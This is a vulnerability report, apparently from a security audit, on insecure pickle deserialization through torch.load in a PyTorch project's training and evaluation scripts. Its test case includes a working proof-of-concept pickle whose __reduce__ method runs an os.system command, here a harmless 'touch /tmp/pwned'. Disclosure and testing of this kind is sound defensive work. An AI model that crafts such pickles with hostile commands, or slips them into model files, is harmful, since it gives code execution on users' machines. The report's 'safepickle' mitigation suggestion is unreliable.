- Vulnerability Name: Insecure Deserialization via Pickle Files

- Description:
    1. The project uses `torch.load` function from PyTorch to load pre-trained model weights. This function, by default, deserializes Python objects from pickle files.
    2. The application allows users to specify the path to pre-trained model files through command-line arguments `--load_pretrained_extractor` and `--load_pretrained_memory` in scripts `train_attr_pred.py`, `train_attr_manip.py`, and `eval.py`.
    3. A malicious actor can create a specially crafted pickle file containing malicious Python code.
    4. The attacker can replace legitimate pre-trained model files (e.g., in the `models` directory or any user-specified path) with their malicious pickle file.
    5. When a user, either unknowingly uses the replaced file or is tricked into specifying the path to the malicious file via command-line arguments, the `torch.load` function will execute the malicious code during deserialization.
    6. This allows the attacker to achieve arbitrary code execution on the user's machine with the privileges of the user running the script.

- Impact:
    - Arbitrary code execution on the machine running the training or evaluation scripts.
    - Potential compromise of the user's system and data.
    - Complete control over the application's execution environment.

- Vulnerability Rank: Critical

- Currently Implemented Mitigations:
    - None. The code directly uses `torch.load` without any checks or security measures on the loaded files.
    - The `README.md` mentions that pretrained model weights are provided under the `models` directory and are downloaded via git-lfs. This suggests an intended source of trusted models, but does not technically prevent loading of malicious pickles if a user replaces these files or provides a different path.
    - The `CONTRIBUTING.md` provides a link to report security vulnerabilities to AWS/Amazon Security, which is a reactive measure, not a proactive mitigation.

- Missing Mitigations:
    - **Input validation:** The application should validate the source and integrity of the files loaded via `--load_pretrained_extractor` and `--load_pretrained_memory`. However, due to the nature of pickle deserialization vulnerabilities, input validation of the filename alone is insufficient to prevent the attack.
    - **Secure deserialization:**  Ideally, the application should avoid using `torch.load` with pickle for loading pre-trained models from potentially untrusted sources. If pickle is necessary, consider using `torch.load` with `pickle_module=safepickle` or a similar safer pickle loading library, although the security of `safepickle` itself might also be debated.  A better approach would be to explore alternative serialization formats that are not susceptible to arbitrary code execution during deserialization, if feasible for PyTorch model weights.
    - **Warning to users:**  The documentation should include a prominent warning about the security risks of loading pre-trained models from untrusted sources and advise users to only use models from trusted origins.

- Preconditions:
    1. The attacker needs to create a malicious pickle file that exploits the insecure deserialization vulnerability in `torch.load`.
    2. The attacker needs to make the user load this malicious pickle file. This could be achieved by:
        - Replacing the legitimate pre-trained model files in the `models` directory or any other location where the user might expect to find models.
        - Tricking the user into downloading and using a malicious model file from an untrusted source.
        - Socially engineering the user to provide a path to the malicious file via the `--load_pretrained_extractor` or `--load_pretrained_memory` command-line arguments.

- Source Code Analysis:
    - **File: `/code/src/train_attr_pred.py`**
        ```python
        if args.load_pretrained_extractor:
            print('load %s\n' % args.load_pretrained_extractor)
            model.load_state_dict(torch.load(args.load_pretrained_extractor))
        else:
            print('Pretrained extractor not provided. Use --load_pretrained_extractor or the model will be randomly initialized.')
        ```
        - The code checks if the `--load_pretrained_extractor` argument is provided. If it is, it directly passes the user-supplied path (`args.load_pretrained_extractor`) to `torch.load()`.
        - `torch.load()` will attempt to deserialize the file pointed to by this path using pickle, which is vulnerable to code execution if the file is malicious.

    - **File: `/code/src/train_attr_manip.py`**
        ```python
        if args.load_pretrained_extractor:
            print('load %s\n' % args.load_pretrained_extractor)
            model.load_state_dict(torch.load(args.load_pretrained_extractor))
        else:
            print('Pretrained extractor not provided. Use --load_pretrained_extractor or the model will be randomly initialized.')
        if args.load_pretrained_memory:
            print('load %s\n' % args.load_pretrained_memory)
            memory.load_state_dict(torch.load(args.load_pretrained_memory))
        else:
            print('Pretrained memory not provided. Use --load_pretrained_memory or the model will be randomly initialized.')
        ```
        - Similar to `train_attr_pred.py`, this script uses `torch.load()` with paths provided by `--load_pretrained_extractor` and `--load_pretrained_memory` arguments, making it vulnerable.

    - **File: `/code/src/eval.py`**
        ```python
        if args.load_pretrained_extractor:
            print('load {path} \n'.format(path=args.load_pretrained_extractor))
            model.load_state_dict(torch.load(args.load_pretrained_extractor))
        else:
            print('Pretrained extractor not provided. Use --load_pretrained_extractor or the model will be randomly initialized.')
        if args.load_pretrained_memory:
            print('load {path} \n'.format(path=args.load_pretrained_memory))
            memory.load_state_dict(torch.load(args.load_pretrained_memory))
        else:
            print('Pretrained memory not provided. Use --load_pretrained_memory or the model will be randomly initialized.')
        ```
        - The `eval.py` script also uses `torch.load()` in the same insecure manner, using paths from `--load_pretrained_extractor` and `--load_pretrained_memory`.

- Security Test Case:
    1. **Create a malicious pickle file:**
        ```python
        import torch
        import os

        class MaliciousPayload(object):
            def __reduce__(self):
                return (os.system, ('touch /tmp/pwned',)) # Command to execute: create a file /tmp/pwned

        payload = MaliciousPayload()
        torch.save(payload, 'malicious.pkl')
        ```
        - This Python script creates a `malicious.pkl` file. When this file is deserialized by `torch.load`, it will execute the `touch /tmp/pwned` command on a Linux-like system, creating an empty file named `pwned` in the `/tmp` directory. On Windows, you could use a command like `os.system('type nul > C:\\temp\\pwned')`.

    2. **Run `train_attr_pred.py` (or `train_attr_manip.py` or `eval.py`) and load the malicious pickle file:**
        ```bash
        export DATASET_PATH="/path/to/dataset/folder/that/contain/img/subfolder" # Replace with a valid dataset path, even if it's dummy data for testing.
        export FILE_ROOT="/path/to/splits/folder" # Replace with a valid splits folder path, even if dummy data.
        python src/train_attr_pred.py --dataset_name Shopping100k --file_root ${FILE_ROOT} --img_root ${DATASET_PATH} --load_pretrained_extractor malicious.pkl
        ```
        - Replace `/path/to/dataset/folder/that/contain/img/subfolder` and `/path/to/splits/folder` with actual paths or create dummy folders and files to satisfy the script's requirements. The important part is to provide `malicious.pkl` as the `--load_pretrained_extractor` argument.

    3. **Check for successful code execution:**
        - After running the command, check if the file `/tmp/pwned` (or `C:\\temp\\pwned` on Windows if you adapted the payload) has been created.
        - If the file exists, it confirms that the malicious code within `malicious.pkl` was executed when `torch.load` deserialized it, proving the insecure deserialization vulnerability.

This test case demonstrates that loading a pickle file via the `--load_pretrained_extractor` argument allows for arbitrary code execution, confirming the insecure deserialization vulnerability. The same test can be adapted for `--load_pretrained_memory` in `train_attr_manip.py` and `eval.py`.
